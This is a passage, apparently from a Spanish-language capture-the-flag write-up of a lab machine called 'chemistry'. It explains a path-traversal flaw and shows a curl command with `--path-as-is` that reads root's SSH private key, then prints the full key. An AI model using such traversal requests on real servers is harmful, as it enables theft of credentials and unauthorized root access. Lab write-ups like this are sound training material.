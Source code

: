 ```bash
LISTEN   0        128              0.0.0.0:5000           0.0.0.0:*       users:(("ss",pid=3031,fd=4),("bash",pid=2839,fd=4))   
LISTEN   0        128            127.0.0.1:8080           0.0.0.0:*                                                             
LISTEN   0        128                 [::]:22                [::]:*      
```

Este comando aprovecha una vulnerabilidad de tipo _Path Traversal_ en un servidor web mal configurado, permitiendo acceder a archivos fuera del directorio permitido mediante el uso de secuencias `../` en la URL. Al usar `--path-as-is`, se evita que `curl` normalice la ruta, permitiendo así solicitar directamente archivos sensibles del sistema, como la clave privada SSH del usuario root ubicada en `/root/.ssh/id_rsa`:
```bash
rosa@chemistry:~$ curl -s -X GET "http://localhost:8080/assets/../../../../root/.ssh/id_rsa" --path-as-is
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
